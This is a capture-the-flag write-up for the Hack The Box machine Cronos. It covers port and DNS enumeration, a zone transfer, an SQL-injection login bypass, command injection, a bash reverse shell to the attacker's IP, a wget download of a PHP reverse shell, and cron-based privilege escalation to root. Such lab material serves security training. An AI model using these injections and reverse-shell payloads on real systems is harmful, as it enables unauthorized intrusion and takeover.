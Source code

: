 # Cronos

**Machine ip:** 10.10.10.13

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.13 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.13`
+ `sudo nmap -Pn -sV -sC -sU -p$ports 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/91f25735-459a-4a75-a798-2c419bd4a7c1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e7764b71-bd50-4af5-ab88-80b1f69cbd8b)

+ dns enumeration: `nslookup`
```
└─$ nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8878f5ed-c712-45c6-aa14-0b093ff5139c)

+ dns enumeration: `nslookup host [server]`
+ `nslookup 10.10.10.13 10.10.10.13`
```
└─$ nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/08c7ad57-ee86-4e75-8e75-e12dd33f9c64)

+ Zone transfer: `host -l <domain-name> <dns_server-address>`
+ `host -l cronos.htb 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/85af127e-788f-4388-960a-f43543698b49)


+ Zoner transfer: `dig axfr @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ac1ace97-a6ec-4bb8-958d-5d740aaf4e59)

+ `dig any @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cc415b9e-da19-489d-a4b8-8ca809bf085b)

+ Add domains into `/etc/hosts` file
```
echo "10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb" >> /etc/hosts
```

+ Enumerate subdomain:
```
gobuster dns -d cronos.htb -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/443694fe-6171-479f-8ff4-92d5bc986ca1)

+ Navigate to `http://admin.cronos.htb/`
+ Login bypass injecting `admin' or '`:`pass`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9bcf5f5e-d294-4d8c-94c1-e7b104bbd065)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4e8644a6-27b4-4344-89e3-1212103589d8)

+ Use `;` to inject command, and that works.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5933aa22-258b-4e2a-a2ec-dd75145e7892)

+ Start a netcat listener: `nc -lnvp 4444`
+ Inject reverse payload after `;`  `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"` and execute.
+ Get shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/765ae797-f4f3-4efc-8602-2587e6aeba6a)

+ Check cronjobs: `cat /etc/crontab` on the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2f5fd4a0-4895-4cbb-bc40-6ef8ece43146)

+ `cp /usr/share/webshells/php/php-reverse-shell.php shell.php` on your attack machine.
+ Change ip address and port number.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b08c2273-d780-4622-9ed4-f50cd8f50d9b)

+ Start `python3 -m http.server` on the attack machine.

+ Transfer to the target.
+ `cd /var/www/laravel/` on the target.
+ `wget 10.10.14.18:8000/shell.php -O artisan` on the target.
+ `chmod +x artisan` on the target.

+ Start listener: `nc -lnvp 5555` on your attack machine.
+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bca0fd82-2a1b-4293-bbe0-8f697cba3cdd)


# References & Alternatives:
+ https://vvmlist.github.io/#cronos
+ https://0xdf.gitlab.io/2020/04/14/htb-cronos.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/cronos-writeup-w-o-metasploit
+ https://alessandrocristofanilli.xyz/posts/htb-cronos/
+ https://systemweakness.com/htb-cronos-walkthrough-3f669386b681
+ https://dev.to/sshad0w/hack-the-box-writeup-cronos-21bn
+ https://www.noobsec.net/hackthebox/htb-cronos/
+ https://medium.com/cronos-htb-walkthough/cronos-htb-walkthrough-9ef91750726
+ https://sevenlayers.com/index.php/133-hackthebox-cronos-walkthrough

